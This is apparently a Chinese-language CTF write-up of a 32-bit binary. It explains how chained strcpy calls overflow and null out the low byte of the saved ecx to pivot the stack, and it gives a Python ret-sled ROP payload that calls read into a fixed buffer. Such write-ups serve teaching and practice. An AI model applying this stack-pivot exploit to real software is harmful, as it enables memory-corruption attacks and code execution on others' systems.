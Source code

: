 並且將 esp 恢復到正確的位置後才 ret

# Vulnerability
參考反編譯出來的 [main.c](#) 以及如下的 memory 配置圖

![](https://i.imgur.com/nM4GSXQ.png)

好像太醜了，其實也可以只看 c 就好

```c
  strcpy((char *)&v6, (const char *)s);
  strcpy((char *)s, &buf);
  strcpy(&buf, dest);
```
(第一個的 &v6 實際上就是 dest)

若 s, buf 都放了 0x40 Bytes, 那
1. 從 s 放到 dest 0x40 Bytes
2. 從 buf 放到 s 0x40 Bytes
3. **從 dest 放到 buf 時, 會放 0x80 Bytes**
    - **因為此時 dest 會是有 0x80 Bytes 的區間都沒有 null byte !!**
    - strcpy 放了 0x80 Bytes 後, 後面再加上 null byte
    - **就把 old ecx 的最後一 byte 蓋成 0x00 !**

最後 return 時 esp 會變成 ecx - 4 再 return, 以下分兩種狀況
- old ecx 最後一 byte 本來就是 0x00
    - 以上圖來說, old ecx 會等於 0xFFFFD600
    - 沒有影響, 程式正確執行
- **最後一 byte 不是 0x00**
    - **跳到前面 dest, s, buf 區間**
    - 因為 ASLR, 所以無法預測準確會跳到哪

# Exploit
```python
buf = 0x804a210
size = 0x01010101
payload = p32(ret)*0xb
payload += p32(pop_ebp)
payload += p32(buf+0x24)
payload += p32(0x8048775) # push 0, call read
payload += p32(buf)
payload += p32(size) # back to main, call read(0, buf, size)
assert len(payload) == 0x40
send(payload)

payload = p32(ret)*0x10
assert len(payload) == 0x40
send(payload)
```
根據前面說的, 輸入兩次 0x40 bytes 長的咚咚

ecx 最後一 byte 被蓋成 0x00, 導致 esp 指向到 dest s buf 區間(但不知準確位置)
